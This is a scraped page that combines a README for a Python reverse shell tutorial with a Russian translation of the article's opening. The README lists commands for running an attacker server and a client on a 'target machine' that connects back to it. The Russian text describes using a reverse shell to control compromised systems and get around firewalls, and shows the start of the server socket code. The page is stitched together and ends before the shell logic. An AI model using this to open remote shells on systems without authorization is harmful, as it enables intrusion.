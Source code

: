 # [How to Create a Reverse Shell in Python](https://www.thepythoncode.com/article/create-reverse-shell-python)
You don't need to install anything.
- To run the server, simply write:
    ```
    python server.py
    ```
    **Output:**
    ```
    Listening as 0.0.0.0:5003 ...
    ```
- Running the client (target machine) that connects to 192.168.1.104 (server's IP Address) :
    ```
    python client.py 192.168.1.104
    ```
- The server will get notified once a client is connected.
##
# [[] / []]()
Существует множество способов получить контроль над скомпрометированной системой. Обычной практикой является получение доступа к интерактивной оболочке, что позволяет попытаться получить полный контроль над операционной системой. Однако большинство основных брандмауэров блокируют прямые удаленные подключения. Одним из способов обойти это является использование обратных оболочек.

Обратная оболочка — это программа, которая выполняет локальные команды cmd.exe (для Windows) или bash/zsh (для Unix-подобных) и отправляет выходные данные на удаленную машину. С помощью обратной оболочки целевая машина инициирует соединение с машиной злоумышленника, а машина злоумышленника прослушивает входящие соединения на указанном порту; это позволит обойти брандмауэры.

Основная идея кода, который мы будем реализовывать, заключается в том, что машина злоумышленника будет продолжать прослушивать соединения. Как только клиент (или целевая машина) подключается, сервер отправляет команды оболочки на целевой компьютер и ожидает выходных результатов.

Связанные с: Как использовать хэш-алгоритмы в Python с помощью hashlib.

Серверная часть
Для начала начнем с сервера (кода злоумышленника):

import socket

SERVER_HOST = "0.0.0.0"
SERVER_PORT = 5003
BUFFER_SIZE = 1024 * 128 # 128KB max size of messages, feel free to increase
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>"
# create a socket object
s = socket.socket()
Обратите внимание, что я использовал 0.0.0.0 в качестве IP-адреса сервера, это означает все IPv4-адреса на локальном компьютере. Вы можете задаться вопросом, почему мы не используем только наш локальный IP-адрес или localhost или 127.0.0.1? Ну, если сервер имеет два IP-адреса, скажем, 192.168.1.101 в сети и 10.0.1.1 в другой, и сервер прослушивает 0.0.0.0, то он будет доступен на обоих этих IP-адресах.
